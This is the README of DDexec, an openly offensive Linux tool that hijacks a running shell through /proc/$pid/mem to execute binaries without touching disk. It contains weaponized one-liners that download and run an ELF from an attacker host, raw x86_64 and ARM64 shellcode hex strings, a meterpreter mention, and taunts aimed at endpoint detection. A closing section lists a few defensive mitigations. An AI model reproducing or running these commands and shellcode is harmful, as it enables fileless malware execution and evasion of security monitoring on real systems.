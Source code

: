 # DDexec
## Context
In Linux in order to run a program it must exist as a file, it must be accessible in some way through the file system hierarchy (this is just how `execve()` works). This file may reside on disk or in ram (tmpfs, memfd) but you need a filepath. This has made very easy to control what is run on a Linux system, it makes easy to detect threats and attacker's tools or to prevent them from trying to execute anything of theirs at all (_e. g._ not allowing unprivileged users to place executable files anywhere).

But this technique is here to change all of this. If you can not start the process you want... then you hijack one already existing.

## Usage
Pipe into the `ddexec.sh` script the base64 of the binary you want to run (**without** newlines). The arguments for the script are the arguments for the program (starting with `argv[0]`).

Here, try this:
```
base64 -w0 /bin/ls | bash ddexec.sh ls -lA
```
which is easily weaponizable with something like
```
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```

There is also the `ddsc.sh` script that allows you to run binary code directly.
The following is an example of the use of a shellcode that will create a memfd (a file descriptor pointing to a file in memory) to which we can later write binaries and run them, from memory obviously.
```
bash ddsc.sh -x <<< "68444541444889e74831f64889f0b401b03f0f054889c7b04d0f05b0220f05" &
cd /proc/$!/fd
wget -O 4 https://attacker.com/binary.elf
./4
```
In ARM64 the process is similar, only the shellcode changes
```
bash ddsc.sh -x <<< "802888d2a088a8f2e00f1ff8e0030091210001cae82280d2010000d4c80580d2010000d4881580d2010000d4610280d2281080d2010000d4"
```

And yes. It works with meterpreter.

Tested Linux distributions are Debian, Alpine and Arch. Supported shells are bash, zsh and ash (busybox); on x86_64 and aarch64 (arm64) architectures.

### EverythingExec
As of 12/12/2022 I have found a number of alternatives to `dd`, one of which, `tail`, is currently the default program used to `lseek()` through the `mem` file (which was the sole purpose for using `dd`). Said alternatives are:
```
tail
hexdump
cmp
xxd
```

Setting the variable `SEEKER` you may change the seeker used, *e. g.*:
```
SEEKER=cmp bash ddexec.sh ls -l <<< $(base64 -w0 /bin/ls)
```

If you find another valid seeker not implemented in the script you may still use it setting the `SEEKER_ARGS` variable:
```
SEEKER=xxd SEEKER_ARGS='-s $offset' zsh ddexec.sh ls -l <<< $(base64 -w0 /bin/ls)
```
Block this, EDRs.

## Dependencies
This script depends on the following tools to work.
```
tail | dd | hexdump | any other program that allows us to seek through a fd
bash | zsh | ash (busybox)
head
tail
cut
grep
od
readlink
wc
tr
basename
base64
```

## The technique
If you are able to modify arbitrarily the memory of a process then you can take over it. This can be used to hijack an already existing process and replace it with another program. We can achieve this either by using the `ptrace()` syscall (which requires you to have the ability to execute syscalls or to have gdb available on the system) or, more interestingly, writing to `/proc/$pid/mem`.

The file `/proc/$pid/mem` is a one-to-one mapping of the userland's address space of a process (_e. g._ from `0x0` to `0x7ffffffffffff000` in x86-64). This means that reading from or writing to this file at an offset `x` is the same as reading from or modifying the contents at the virtual address `x`.

Now, we have three basic problems to face:
- In general, only root and the program owner of the file may modify it.
- ASLR.
- If we try to read or write to an address not mapped in the address space of the program we will get an I/O error.

But we have clever solutions:
- Most shell interpreters allow the creation of file descriptors that will then be inherited by child processes. We can create a fd pointing to the `mem` file of the sell with write permissions... so child processes that use that fd will be able to modify the shell's memory.
- ASLR isn't even a problem, we can check the shell's `maps` file from the procfs in order to gain information about the address layout of the process.
- So we need to `lseek()` over the file. From the shell this can be done using a few common binaries, like `tail` or the infamous `dd`, see the *EverythingExec* section for more information.

### In more detail
The steps are relatively easy and do not require any kind of expertise to understand them:
* Parse the binary we want to run and the loader to find out what mappings they need. Then craft a *shell*code that will perform, broadly speaking, the same steps that the kernel does upon each call to `execve()`:
    * Create said mappings.
    * Read the binaries into them.
    * Set up permissions.
    * Finally initialize the stack with the arguments for the program and place the auxiliary vector (needed by the loader).
    * Jump into the loader and let it do the rest (load and link libraries needed by the program).
* Obtain from the `syscall` file the address to which the process will return after the syscall it is currently executing.
* Overwrite that place, which will be executable, with our shellcode (through `mem` we can modify unwritable pages).
* Pass the program we want to run to the stdin of the process (will be `read()` by said *shell*code).
* At this point it is up to the loader to load the necessary libraries for our program and jump into it.

Oh, and all of this must be done in s**hell** scripting, or what would be the point?

## Contribute
Well, there are a couple of TODOs. Besides this, you may have noticed that I do not know much about shell scripting (I am more of a C programmer myself) and I am sure I must have won a decade worth of ["useless use of a cat"](https://porkmail.org/era/unix/award.html) awards (no cats were harmed in the making of this tool) and the rest of variants just with a fraction of this project.

- Improve code style and performance.
- Port to other shells.
- Allow run the program with a non-empty environment.

Anyway, **all contribution is welcome**. Feel free to fork and PR.

## Credit
Recently I have come to know that [Sektor7](https://www.sektor7.net) had already [published](https://blog.sektor7.net/#!res/2018/pure-in-memory-linux.md) this almost-exact same technique on their blog a few years ago.

Despite this, I thought this technique independently in, now almost, its entirety. Probably the smarter piece of this technique is the use of the inherited file descriptor, idea provided by [David Buchanan](https://github.com/DavidBuchanan314) (inspired, I think, by Sektor7's blog) almost a year before I even started thinking about this topic. This alone not only makes the technique much simpler and neat, it also makes it far deadlier by eliminating the need to disable ASLR. His [tweet](https://twitter.com/David3141593/status/1386661837073174532) also made me realize how *stupid* I was for not noticing that `mem` allowed to write to non-writable pages, hence making the ROP unnecessary... This ultimately also has the desired effect of making this significantly easier to port to other ISAs.

Either way, I hope I will be able to spread this technique much further, which is what matters.

I would like to thank [Carlos Polop](https://github.com/carlospolop), a great pentester and better friend, for making me think about this subject, and for his helpful feedback and interest, oh and I also owe him the name of the project. I am sure that if you are reading this you have already used his awesome tool [PEASS](https://github.com/carlospolop/PEASS-ng) and found helpful some article in his book [HackTricks](https://book.hacktricks.xyz). I also thank him for helping me with the talk at the [RootedCon 2022](https://rootedcon.com).

## Now what?
You may:
- Go distroless.
- Use a kernel compiled without support for the `mem` file.
- Detect any program opening or writing to the `mem` file.

## Questions? Death threats?
Feel free to send me an email to [yagogl@protonmail.com](mailto:yagogl@protonmail.com) or to contact me through [Twitter](https://twitter.com/arget1313).
